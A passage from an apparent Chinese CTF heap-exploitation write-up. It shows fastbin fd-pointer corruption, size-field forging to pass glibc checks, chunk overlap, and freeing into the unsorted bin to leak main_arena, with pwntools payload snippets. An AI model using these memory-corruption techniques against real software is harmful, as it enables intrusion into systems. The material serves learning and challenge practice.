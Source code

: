 修改后

![](https://pic1.imgdb.cn/item/67c1caa6d0e0a243d40839fe.png)

现在 chunk2 的 fd 指向了 chunk4，这样相当于 chunk 4 已经被 free 了而且被存放在 fastbin 中

![](https://pic1.imgdb.cn/item/67c1cc6dd0e0a243d4083a51.png)

我们等下要 malloc 回 chunk 4 ，可是 malloc fastbin 有检查

**当从 fastbin 中分配 chunk 时，glibc 会检查 chunk 的 `size` 字段是否与当前 fastbin 的大小类别匹配**

所以我们覆盖 chunk 4 的 size 为 fastbin 大小来通过检查

然后通过两次(因为 fast bin 是单链表) malloc，就可以 small chunk 放入 fast bin 中了

```python
payload = p64(0) * 3 + p64(0x21)

fill(3, payload)
 
alloc(0x10)
alloc(0x10)

gdb.attach(p)
```

chunk4 被我们修改成了 fastbin

![](https://pic1.imgdb.cn/item/67c1d3cfd0e0a243d4083bd4.png)

这样就有两个指针指向同一个 chunk 了，然后恢复其 size 大小，申请回来在释放掉(释放时，是当做 small bin 释放的)

接着查看对应 chunk 的 index 就好了

```python
payload = p64(0) * 3 + p64(0x91)

fill(3, payload)

alloc(0x80)

free(4)

gdb.attach(p)
```

![](https://pic1.imgdb.cn/item/67c1cd3ad0e0a243d4083a86.png)

### unsorted bin 的特性

- **unsorted bin** 是 glibc 中用于管理释放的内存块的一种 bin
- 它是一个双向链表，每个空闲 chunk 通过 `fd`（forward pointer）和 `bk`（backward pointer）指针链接
- 当 unsorted bin 中只有一个 chunk 时，它的 `fd` 和 `bk` 指针会指向同一个地址，即 **unsorted bin 链表的头部**（main_arena + 0x58）
